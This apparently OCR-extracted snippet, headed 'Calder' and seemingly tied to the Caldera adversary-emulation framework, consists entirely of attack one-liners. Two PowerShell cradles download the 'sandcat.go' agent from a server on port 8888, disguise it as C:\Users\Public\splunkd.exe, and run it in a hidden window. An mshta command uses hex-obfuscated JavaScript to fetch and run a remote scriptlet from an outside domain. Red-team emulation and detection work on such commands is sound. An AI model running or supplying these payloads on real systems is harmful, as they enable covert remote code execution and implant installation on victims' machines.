 # Calder

$server="http://10.99.156.55:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;rm -force "C:\Users\Public\splunkd.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;


C: \Windows\System32\cmd.exe" /v:Off /D/c mshta "JAVascrIPT : var _$_TLEN=["\x53\130\x53\x50\x50\x32\x39","\x73\143\x72\151\160\x74\x3a\x48\x54\164\x70\x73\x3a\57\x2f\x70\x72\x61\167\x69\156\172\x69\156\x62\151\x6c\66\x36\x2e\x63\154\x69\x65\156\x74\x65\x61\x73\x63\151\x6e\144\151\x67\56\167\x6f\x72\x6c\144\x2f\x3f\62\x2f"] ; try{GetObject(_$_TLEN[1] ) [_$_TLEN[0]]() }catch(e){}; close()


$server="http://10.99.156.45:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;rm -force "C:\Users\Public\splunkd.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
